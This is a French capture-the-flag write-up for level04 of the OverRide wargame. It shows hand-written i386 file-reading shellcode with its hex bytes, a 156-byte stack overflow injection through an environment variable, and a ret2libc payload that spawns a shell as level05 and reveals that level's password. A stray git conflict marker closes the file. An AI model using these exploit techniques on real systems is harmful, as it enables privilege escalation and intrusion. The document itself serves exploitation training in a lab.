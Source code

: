 # Level04

Nous remarquons la presence d'un fork, ainsi que des check, qui arrete le programme,
si on execve est appele.
Nous devons realiser notre propre shellcode file reader architecture i386,
il fera un open, read et write sur le fichier .pass du level suivant.

Le code asm est disponnible dans le fichier shellcode_file_reader.s dans le dossier resources.

Nous l'assemblons avec nasm et le linker ld pour pouvoir recuperer le shellcode en hexa.

```
nasm -f elf32 ./resources/shellcode_file_reader.s -o ./resources/shellcode.o
ld -m elf_i386 ./resources/shellcode.o -o ./resources/shellcode
chmod +x ./resources/shellcode
```

Ensuite nous recuperons sont code en hexa grace a obj dump.

```
$ objdump -d resources/shellcode

resources/shellcode:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	31 c9                	xor    %ecx,%ecx
 8049002:	f7 e1                	mul    %ecx

08049004 <open>:
 8049004:	b0 05                	mov    $0x5,%al
 8049006:	51                   	push   %ecx
 8049007:	68 70 61 73 73       	push   $0x73736170
 804900c:	68 30 35 2f 2e       	push   $0x2e2f3530
 8049011:	68 65 76 65 6c       	push   $0x6c657665
 8049016:	68 72 73 2f 6c       	push   $0x6c2f7372
 804901b:	68 2f 75 73 65       	push   $0x6573752f
 8049020:	68 68 6f 6d 65       	push   $0x656d6f68
 8049025:	68 2f 2f 2f 2f       	push   $0x2f2f2f2f
 804902a:	89 e3                	mov    %esp,%ebx
 804902c:	cd 80                	int    $0x80

0804902e <read>:
 804902e:	93                   	xchg   %eax,%ebx
 804902f:	91                   	xchg   %eax,%ecx
 8049030:	b0 03                	mov    $0x3,%al
 8049032:	66 ba ff 0f          	mov    $0xfff,%dx
 8049036:	42                   	inc    %edx
 8049037:	cd 80                	int    $0x80

08049039 <write>:
 8049039:	92                   	xchg   %eax,%edx
 804903a:	b3 01                	mov    $0x1,%bl
 804903c:	c1 e8 0a             	shr    $0xa,%eax
 804903f:	cd 80                	int    $0x80

08049041 <exit>:
 8049041:	93                   	xchg   %eax,%ebx
 8049042:	cd 80                	int    $0x80

```

Ce qui nous donne :
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80
```

Nous devons maintenant trouver l'offset pour injecter le shellcode ainsi que son adresse.
On lance gdb normalement puis on le passe en mode debugging forks child:

```
set follow-fork-mode child
```

De la meme maniere qu'auparavant on trouve l'offset a 156 bytes.

on export tout d'abord le shellcode dans l'env comme si dessous:
```
level04@OverRide:~$ export SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80"
```

puis on trouve l'adressse du NOP le plus proche du shellcode:
```0xffffd8b0```

Place a l'injection:
```
level04@OverRide:~$ python -c 'print "B" * 156 + "\xb0\xd8\xff\xff"' | ./level04
```

# Methode 2 (ret2libc)

Création du ret2libc, pour cela nous avons besoin de l'adresse de `system` et de `exit` et de l'adresse de `/bin/sh` dans la libc.
```
$ gdb ./level04
(gdb) b main
(gdb) r
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
...

(gdb) info function system                                                                                                                                    [17/354]
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) info proc map
process 1996
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) quit
```
Ensuite on va composer notre payload : padding + system + exit + /bin/sh
```
level04@OverRide:~$ (python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"';cat) | ./level04
Give me some shellcode, k

id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat ~level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
>>>>>>> 882eb52cc0f57d130ddafa48770b0dec8f0dc5d9
